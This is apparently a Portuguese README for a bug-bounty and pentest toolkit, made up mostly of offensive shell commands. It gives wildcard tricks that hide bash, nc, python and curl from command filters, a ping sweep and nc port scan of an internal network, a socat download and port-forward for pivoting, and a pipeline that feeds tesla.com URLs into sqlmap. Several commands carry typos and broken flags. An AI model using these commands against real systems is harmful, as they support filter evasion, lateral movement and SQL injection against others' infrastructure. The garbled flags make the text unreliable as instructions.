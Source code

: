 # Bugbounts-ferramentas-e-tutoriais

Esse script baixa as ferramentas mais utilizadas em pentest e bounts, cria arquivos txt passando como usa cada uma, e ainda baixa wordlists mais atuais de parâmetros, dns, diretorios e etc...
<h1>Bypass de bash use a imaginação, aqui está alguns exemplos</h1>
/bin/b??? -p || /bi?/b??? -p = bash</br>
/bin/ne?c?t || /bi?/ne?c?t = nc </br>
/bin/p?t?o?3 || /bi?/p?t?o?3 = python3</br>
/bin/p?t?o?2 || /bi?/p?t?o?2 = python2</br>
/bin/c??l || /bi?/c??l = curl </br>
/bin/w??t || /bi?/w??t = get</br>

<h1>Para fazer um scan na rede do alvo procurando novos ips internos ativos com portas abertas</h1>
route|awk '{print $1}'|grep [[:digit:]] || ip route list |awk '{print $1}'|grep [[:digit:]];echo -e "\e[1;41;1;45mColoqueo ip assim -----> 172.0.0. tire o ultimo numero\e[0m" ;echo -en "Escolha o ip e coloque aqui -->: ";read num ; for i in $(seq 1 255);do ping -W 1 -c 1 $num$i | grep '64 bytes' | awk {'print $4'} | sed 's/.$//g';done > ipvalidos.txt ;for a in $(cat ipvalidos.txt);do nc -nv -w 1 -z $a 80 443 22 21 3306 25 445 139;done
</br>
<h2>Dowlonad do socat para o pivoting</h2>

Comand = wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat;chmod +x socat ;./socat -h

Tutorial = https://deephacking.tech/pivoting-con-socat/
</br>
Uso= ./socat tcp-l:7878,fork,reuseaddr tcp:172.16.0.147:80 &


<h2>Pegando params para sqli</h2>

pegando target das url: 

subfinder -d tesla.com -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a urls.txt

filtrando potenciais sqli: 

cat urls | gf sqli | tee -a sqli.txt
</br>
gf = (ssrf,xss,ssti,sqli,redirect,rce,lfi,jsvar,interestingsubs,insterestingparams,interestingEXT,ido,dbug)

jogando para sqlmap:

while read line; do sqlmap -u $line --parse-erros --current-db --invalid-logical --invalid-bignum --invalid-string --riks 3;done sqli.txt
